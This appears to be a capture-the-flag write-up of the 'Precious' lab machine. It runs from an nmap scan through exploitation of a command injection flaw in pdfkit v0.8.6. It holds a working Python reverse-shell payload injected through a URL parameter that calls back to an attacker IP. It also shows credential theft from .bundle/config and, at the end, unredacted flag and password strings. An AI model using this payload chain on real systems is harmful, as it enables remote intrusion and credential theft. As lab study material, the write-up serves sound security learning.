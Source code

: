# Precious
## 4/01/23
## 10.10.11.189

### Recon:
Nmap
```
Nmap scan report for 10.10.11.189
Host is up (0.012s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.34 seconds
```
[!Webpage view, textbox as input returns pdf image of a url]()
Web page seems to take a url input and generates a pdf view of the page 
uses pdfkit v0.8.6
found command injection vulnerability

### Exploitation

when including a variable for the url, if it contains one or more url characters and then a command it would run the command locally,

confirmed when running `url=http://127.0.0.1/?test=%20\`sleep 5\`` which takes significantly longer to run (due to the sleep command embedded in the url)

`http://10.10.14.67/?test=%20\`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.67",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'\``

```
$ whoami
ruby
$ id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```

```
$ cat .bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3*************FH"
```

ssh henry@10.10.11.189

-bash-5.1$ cat /home/henry/user.txt
7****************7844

7a3027f480ea621fa17d5bbcf7e17844
eed2a37645f1eed67c437a17f584cd4f
Q3c1AqGHtoI0aXAYFH